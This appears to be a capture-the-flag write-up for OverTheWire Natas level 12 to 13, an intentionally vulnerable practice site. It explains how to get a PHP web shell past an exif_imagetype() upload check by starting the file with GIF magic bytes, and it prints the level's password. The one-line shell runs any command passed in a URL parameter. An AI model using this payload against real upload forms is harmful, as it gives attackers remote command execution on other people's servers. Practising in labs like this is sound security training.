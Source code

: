 # [Level 12 to 13](https://overthewire.org/wargames/natas/natas13.html) - Exploit file upload

- Login
```
URL: http://natas13.natas.labs.overthewire.org
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
- Exercise:
![image](https://github.com/user-attachments/assets/fb568b6c-a4dd-4674-80a0-4224ddceb4a0)
![image](https://github.com/user-attachments/assets/4ab9e2cb-459a-4fb5-8db5-7d4ba7773d02)

- Background:
  - Uses `exif_imagetype()` to check if the uploaded file is an image or not
  - This PHP function reads the first few bytes of a file to determine the file type
    - Won’t be fooled by just changing the file extension
    - If the file does not begin with the header bytes that indicate it actually is an image file, it will be rejected
    - GIF start with this headers: `GIF87a`
- Solution:
  ```php
  GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
  ```
  ![image](https://github.com/user-attachments/assets/24417e03-53af-4f51-9b64-08b9d67a0c86)
  ![image](https://github.com/user-attachments/assets/9d611fca-81af-4138-9e27-d69e5be070f9)

- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
